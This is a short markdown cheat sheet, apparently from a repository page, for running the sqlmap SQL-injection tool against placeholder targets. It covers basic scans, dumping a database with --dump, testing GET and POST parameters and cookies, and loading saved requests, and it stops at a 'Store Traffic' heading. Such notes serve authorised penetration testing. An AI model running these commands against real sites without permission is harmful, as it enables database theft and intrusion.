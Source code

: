# Getting Started
```bash
sqlmap -u http://example.com --batch

## Dump the DB
sqlmap -u http://example.com --batch --dump

```

## Running SQLMAP on HTTP Request
```bash
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1
```

## Get/POST Requests

### GET
```bash
sqlmap 'http://www.example.com/example.php?id=1'
```

### POST
```bash
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

```bash
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

```sh
sqlmap 'http://www.example.com/' --cookie='somethin'
```

## From a HTTP Request
```bash
sqlmap -r req.txt
```

# Handling Errors
## Display errors

```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch --parse-errors
```

## Store Traffic
